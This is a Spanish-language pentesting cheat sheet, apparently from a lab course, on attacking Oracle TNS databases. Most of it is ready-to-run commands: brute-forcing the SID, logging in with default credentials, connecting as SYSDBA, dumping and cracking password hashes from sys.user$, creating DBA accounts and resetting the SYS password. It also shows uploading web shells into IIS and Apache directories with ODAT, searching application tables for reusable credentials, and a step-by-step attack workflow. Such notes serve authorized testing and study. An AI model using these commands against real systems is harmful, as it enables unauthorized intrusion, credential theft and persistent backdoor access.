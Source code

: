 # 🔎 Oracle TNS – Pentesting & Post-Explotación

## 📌 Introducción
- **Oracle Transparent Network Substrate (TNS)** es el protocolo de comunicación entre bases de datos Oracle y aplicaciones.
- Puerto por defecto: **TCP/1521**.
- Archivos de configuración:
  - `tnsnames.ora` → resolución de nombres de servicio (cliente).
  - `listener.ora` → define listeners y parámetros (servidor).
- Compatible con IPv6 y SSL/TLS.
- Usado en sectores críticos (banca, salud, retail).

---

## ⚙️ Configuración por defecto
- Listener activo en **TCP/1521**.
- Gestión remota habilitada en **8i/9i**, no en 10g+.
- Seguridad básica: autenticación por host/IP/usuario/contraseña.
- Cuentas por defecto:
  - `CHANGE_ON_INSTALL` (Oracle 9).
  - `dbsnmp/dbsnmp` (DBSNMP service).

---

## 🛠️ Herramientas
- **ODAT (Oracle Database Attacking Tool)** → exploits, enumeración, subida de ficheros.
- **sqlplus** → cliente oficial Oracle.
- **Nmap**:
  ```bash
  nmap -p1521 -sV <IP>
  nmap -p1521 --script oracle-sid-brute <IP>
  ```

---
## Instalación de dependencias para sqlplus y ODAT
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
sudo mkdir -p /opt/oracle
sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
source ~/.bashrc
cd ~
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip install python-libnmap
git submodule init
git submodule update
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

## 🔑 Usuarios y Hashes en `sys.user$`

- Tabla **`sys.user$`** almacena usuarios y contraseñas encriptadas.
- Requiere privilegios altos (`SYSDBA`).
- Ejemplo:

  ```sql
  select name, password from sys.user$;
  ```

### 🧑‍💻 Usuario DBSNMP
- Usuario por defecto para **Oracle Enterprise Manager**.
- Contraseña por defecto: `dbsnmp`.
- Puede tener permisos elevados → objetivo prioritario.

---

## 🔓 Crackeo de Hashes
### Pre-11g (DES)
```bash
john --format=oracle oracle_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### 11g+ (SHA-1 salted)
```bash
hashcat -m 112 oracle_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## ⚡ Escalada con `as sysdba`
Probar conexión con privilegios:
```bash
sqlplus scott/tiger@10.10.10.10/XE as sysdba
```

Si funciona → acceso como **SYS** con rol **DBA** completo:
```sql
create user test identified by test;
grant dba to pentester;

alter user sys identified by newpassword;
```

---

## 🕸️ Subida de Webshell con ODAT
Ejemplo Windows (IIS en `C:\inetpub\wwwroot`):
```shell-session
./odat.py utlfile -s 10.129.205.19 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

Comando que funcionó:
```shell
./odat.py utlfile -s 10.129.205.19 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot shell.aspx ./shell.aspx 
```

Ejemplo Linux (Apache en `/var/www/html`):
```bash
./odat.py utlfile -s 10.10.10.10 -d XE -U scott -P tiger --sysdba \
--putFile /var/www/html shell.php ./local_shell.php
```

Verificar:
```bash
curl http://10.10.10.10/shell.php
```

---

## 🔍 Buscar credenciales en aplicaciones
1. Listar usuarios y roles:
   ```sql
   select * from dba_users;
   select * from dba_role_privs;
   ```

2. Buscar tablas con usuarios:
   ```sql
   select table_name from all_tables where table_name like '%USER%';
   select * from APP_USERS;
   select * from USERS;
   ```

3. Revisar archivos de configuración vía **UTL_FILE/ODAT**:
   - Java: `config.xml`, `application.properties`.
   - PHP: `config.php`, `.env`.

---

## 📌 Workflow de ataque recomendado
1. **Enumerar** con Nmap + ODAT.  
2. **Encontrar credenciales válidas** (`scott/tiger`, `dbsnmp/dbsnmp`).  
3. **Conectar con sqlplus** y probar **`as sysdba`**.  
4. **Extraer hashes** de `sys.user$` → crackear con John/Hashcat.  
5. Si escalas a SYS/DBA → crear usuario propio o alterar SYS.  
6. Intentar **escribir en directorios web** para subir shell.  
7. **Revisar tablas de apps** → credenciales reutilizables.  

---

## 📋 Chuletario rápido

### Escaneo
```bash
nmap --open -p1521 -sVC <IP>
nmap -p1521 --script oracle-sid-brute <IP>
```

Ejemplo: 
Tras usar el script de nmap `oracle-sid-brute` obtenemos: XE es el SID de la instancia de oracle
```nmap
1521/tcp open  oracle  syn-ack ttl 127
| oracle-sid-brute: 
|_  XE
```
### Enumeración con ODAT
```bash
./odat.py all -s <IP>
```

### Conexión
```bash
sqlplus usuario/pass@<IP>/<SID>
sqlplus usuario/pass@<IP>/<SID> as sysdba
```

### Hashes
```sql
select name, password from sys.user$;
```

### Crackeo
```bash
john --format=oracle hashes.txt --wordlist=rockyou.txt
hashcat -m 112 hashes.txt rockyou.txt
```

### Subida de shell
```bash
./odat.py utlfile -s <IP> -d <SID> -U user -P pass --sysdba \
--putFile /var/www/html shell.php ./shell.php
```
```bash
curl http://<IP>/shell.php
```


